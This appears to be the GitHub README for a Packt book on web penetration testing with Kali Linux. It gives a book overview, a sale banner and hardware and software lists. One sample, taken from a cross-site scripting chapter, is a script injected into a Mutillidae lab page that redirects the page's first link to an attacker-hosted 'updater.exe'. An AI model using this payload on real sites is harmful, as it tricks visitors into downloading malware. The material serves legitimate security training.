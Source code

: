 ## [Get this title for $10 on Packt's Spring Sale](https://www.packt.com/B03918?utm_source=github&utm_medium=packt-github-repo&utm_campaign=spring_10_dollar_2022)
-----
For a limited period, all eBooks and Videos are only $10. All the practical content you need \- by developers, for developers

# Mastering Kali Linux for Web Penetration Testing
This is the code repository for [Mastering Kali Linux for Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-web-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781784395070), published by [Packt](https://www.packtpub.com/?utm_source=github). It contains all the supporting project files necessary to work through the book from start to finish.
## About the Book
You will start by delving into some common web application architectures in use, both in private and public cloud instances. You will also learn about the most common frameworks for testing, such as OWASP OGT version 4, and how to use them to guide your efforts. In the next section, you will be introduced to web pentesting with core tools and you will also see how to make web applications more secure through rigorous penetration tests using advanced features in open source tools. The book will then show you how to better hone your web pentesting skills in safe environments that can ensure low-risk experimentation with the powerful tools and features in Kali Linux that go beyond a typical script-kiddie approach. After establishing how to test these powerful tools safely, you will understand how to better identify vulnerabilities, position and deploy exploits, compromise authentication and authorization, and test the resilience and exposure applications possess.


## Instructions and Navigation
All of the code is organized into folders. Each folder starts with a number followed by the application name. For example, Chapter02.

Chapter 01, 02, 04, 05, 09, 11, and 12 doesn't contain code files.

The code will look like the following:
```
http://172.16.30.129/mutillidae/index.php?page=user-info.php
&username=
Infiltrating Sessions via Cross-Site Scripting
[ 20 ]
<script>window.onload = function() {var
AllLinks=document.getElementsByTagName("a"); AllLinks[0].href =
"http://172.16.30.128/updater.exe"; }</script>
```

Hardware list:
The exercises performed in this book and the tools used can be deployed on any modern
Windows, Linux, or Mac OS machine capable of running a suitable virtualization platform
and a more recent version of the OS. Suggested minimum requirements should allow for at
least the following resources to be available to your virtual platforms:
4 virtual CPUs
4-8 GB of RAM
802.3 Gigabit Ethernet, shared with host machine
802.11a/g/n/ac WiFi link, shared with host machine
Software list:
Desktop/Laptop Core OS and Hypervisor:
Virtualization should be provided by one of Kali Linux's supported hypervisors, namely
one of the following options. The operating system and hardware will need to support the
minimum requirements, with an eye toward dedicating the previous hardware
recommendations to the guest virtual machines.

## Related Products
* [Mastering Kali Linux for Advanced Penetration Testing - Second Edition](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing-second-edition?utm_source=github&utm_medium=repository&utm_campaign=9781787120235)

* [Mastering Kali Linux for Advanced Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781782163121)

* [Kali Linux Web Penetration Testing Cookbook](https://www.packtpub.com/networking-and-servers/kali-linux-web-penetration-testing-cookbook?utm_source=github&utm_medium=repository&utm_campaign=9781784392918)

